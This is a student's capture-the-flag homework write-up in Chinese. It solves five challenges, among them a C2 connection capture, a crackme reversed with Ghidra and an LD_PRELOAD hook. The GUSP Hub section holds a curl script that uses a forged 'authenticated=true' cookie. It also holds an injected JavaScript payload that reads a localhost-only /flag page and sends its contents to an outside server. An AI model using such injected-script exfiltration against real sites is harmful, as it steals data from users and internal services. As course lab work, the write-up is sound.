

# HW0 Writeup

- 學號：`109550206`

## Easy C2

- Flag：`FLAG{C2_cmd_in_http_header}`

### 解題流程與思路

題目說明其程式在發送信息跟其他人互動，且直接執行可以得到錯誤訊息 `[!] failed to connect socket: Connection refused`。


因此可以猜測其在嘗試對某個地方建立連線，但並沒有成功。

**解題過程：**
1. tcpdump 來監聽網路狀況，再執行該程式，可以發現其對 127.0.0.1:11187 嘗試進行連線。

2. 透過 nc 於該 IP:PORT 建一個可以回應 TCP 連線的 Server，再執行該程式，及可於此 Server 收到 FLAG。

**取得 flag 的畫面：**


## GUSP Hub

- Flag：`FLAG{web progr4mming 101}`

### 解題流程與思路
根據題目首先需要一個可以跟 GUSP Hub 互動的網頁服務，接著將其註冊上 GUSP 可以得到一個 API ID，得到 API ID 後可以透過 /add-api 將 javascript 嵌入一個頁面中，再透過 /report 設法使 GUSP Hub 透過 bot 在本地開啟被嵌入 javascript 的頁面並執行，即可以獲得於 GUSP Hub 本地進行訪問的方法，可以到限制 127.0.0.1 的 /flag 頁面獲得 FLAG。
**解題過程：**
1. 撰寫符合 GUSP 的 HTTP Server (Flask) 並於一個有 Public IP 的地方執行 (linux1.cs.nctu.edu.tw)

2. 執行 sol shell script
    - /add-api: 要加上 cookie ("authenticated=true") 才能獲取這個頁面，並填入我們撰寫的 HTTP Server IP address，及想嵌入的 JS。
    - 當 HTTP Server 完全符合 GUSP Hub 進行的測試，可以得到 api-id
    - /report: 附上 api-id，並於 alias 填入符合特定規範的字串，且該字串將會被用來戳 HTTP Server 的 api，需要回復規定內容，GUSP Hub 便會自己去戳被嵌入 JS 的頁面。
    ```sh
    #!/usr/bin/bash

    url="http://linux1.cs.nctu.edu.tw:5000/api"
    JS=$(cat sol.js)

    resp=$(curl -s -X POST \
                -H "Content-Type: application/x-www-form-urlencoded" \
                -b "authenticated=true" \
                -d "url=${url}&javascript=${JS}" \
                http://edu-ctf.zoolab.org:10010/add-api)

    api_id=$(echo $resp | awk '{print $8}')

    alias="abc123"

    resp=$(curl -s -X POST \
                -H "Content-Type: application/x-www-form-urlencoded" \
                -b "authenticated=true" \
                -d "id=${api_id}&alias=${alias}" \
                http://edu-ctf.zoolab.org:10010/report)
    ```
3. 因此該段 JS 將在 GUSP Hub 的 local 端執行，其內容如下，自己去戳 /flag 並將內容放在 headers["Flag"]，再戳一下 HTTP Server，HTTP Server 再根據自己規定的格式將 flag 撈出來，即可獲得 FLAG。
    ```javascript
    fetch("http://127.0.0.1:3000/flag", {headers: { 'give-me-the-flag': 'yes' }}).then(response => response.text()).then(text => { 
        fetch("http://linux1.cs.nctu.edu.tw:5000/flag", {headers: { 'Flag': text }}) 
    });
    ```

**取得 flag 的畫面：**


## Baby Crackme

- Flag：`FLAG{r0ll1ng_4nd_3xtr4ct_t0_m3m0ry}`

### 解題流程與思路
直接丟接逆向工具，觀察其內容。
**解題過程：**
1. 丟進 IDA 直接先找到 main 可以看到程式流程，在確認完輸入內容是否符合某件事之後，會分別進到 Valid、Invalid，因此我們要設法找出須符合的條件。

2. 丟進 Ghidra 可以譯出類似 Source code 的東西，找到 Valid、Invalid 可以看到條件為 `FUN_001011c9`。

3. 看到 `FUN_001011c9`，可以看到其根據一些參數生出了某一個字串，且輸入與該字串相同即為 Valid。

4. 撰寫 cpp 程式做一樣的事情生成該字串。
    - param_1 ~ 3 可於 main 的 Source code 看到。
    - DAT_00102020 則在 .rodata 區塊於 Ghidra 也可以看到其值
    - 至此需要的不在此 func 的值都找到了，即可透過相同流程生出字串
    ```cpp
    #include <iostream>

    int main(){
        uint DAT[] = {0x4a, 0x3c, 0x66,0xd0,0xc7,0x4b,0xc6,0xb7,0x1b,0x0d,0xc0,0x56,0xb8,0xd7,0xd3,0x47,0xb4,0xe6,0x67,0x0e,0xb6,0x50,0x92,0x8c,0x22,0x5c, 0x63, 0x8b, 0x07, 0x09, 0xf6, 0xf1, 0x64, 0x8a, 0x8b, 0xf2, 0x00, 0x00, 0x00, 0x00};
        uint param_2 = 0x24;
        uint param_3 = 0xbaceb00c;
        uint local_58 = param_3;
        char flag[1000] = {};

        for(int local_3c = 0; local_3c < param_2; local_3c = local_3c + 1){
            int bVar1 = DAT[local_3c];
            flag[local_3c] = (char) local_58 ^ bVar1;
            local_58 = ((local_58 >> 1 | (uint)((local_58 & 1) != 0) << 0x1f) ^ (uint) bVar1) + (param_2 - local_3c);
        }
        std::cout << flag << '\n';
        return 0;
    }
    ```
5. 編譯並執行後發現其為 FLAG 的形式，即找到了 FLAG。

**取得 flag 的畫面：**

## Baby Hook

- Flag：`FLAG{B4by_Ld_Pr3L0aD_L1bR1rY_:)}`

### 解題流程與思路
其 main.py 明確指出其會接收一個 .so 並設置 LD_PRELOAD，再去執行 chall，因此我們就撰寫一個 .so 包含一個 chall 有的 func 來進行 hook 使其去 access flag.txt。
**解題過程：**
1. 撰寫一個 C program，含有 `__libc_start_main`，且或讀 flag.txt 並輸出。
2. 編譯成 .so
3. 送至提供的 Server 來執行 main.py，於是該 Server 執行 chall 時，`__libc_start_main` 會被 hook 並執行讀 flag.txt 並輸出，即可以獲得 FLAG。

**取得 flag 的畫面：**

## Extreme Xorrrrr

- Flag：`FLAG{xor_ThEN_><OR_1qUal_ZEr0}`

### 解題流程與思路
根據提供的 python 檔設法反向解密取得 FLAG。
**解題過程：**
1. 首先觀察 xorrrrr 可以知道其會將輸入陣列變為一個特殊陣列使，陣列每個元素皆為除了該 index 的外的所有元素值 xor 在一起。
2. 此特性該好對於偶數的狀況，可以透過全部 xor 在一起得到一個所有原始元素 xor 在一起的值，再將此值 xor 所有元素即可取得所有 index 原本的值。
    ```python
    def reverse_xorrrrr(nums):
        tmp = 0
        for num in nums:
            tmp ^= num
        result = [ nums[i] ^ tmp for i in range(len(nums))]
        return result
    ```
3. 接著透過模逆元可以將其式子做轉換，形成 20 條同餘式子，再套中國餘式定理即可解出來，最後再將其值轉回字串即為 FLAG。
    ```python
    def egcd(a, b):
        if 0 == b:
            return 1, 0, a
        x, y, q = egcd(b, a % b)
        x, y = y, (x - a // b * y)
        return x, y, q

    def chinese_remainder(pairs):
        mod_list, remainder_list = [p[0] for p in pairs], [p[1] for p in pairs]
        mod_product = reduce(lambda x, y: x * y, mod_list)
        mi_list = [mod_product // x for x in mod_list]
        mi_inverse = [egcd(mi_list[i], mod_list[i])[0] for i in range(len(mi_list))]
        x = 0
        for i in range(len(remainder_list)):
            x += mi_list[i] * mi_inverse[i] * remainder_list[i]
            x %= mod_product
        return x
    ```

**取得 flag 的畫面：**
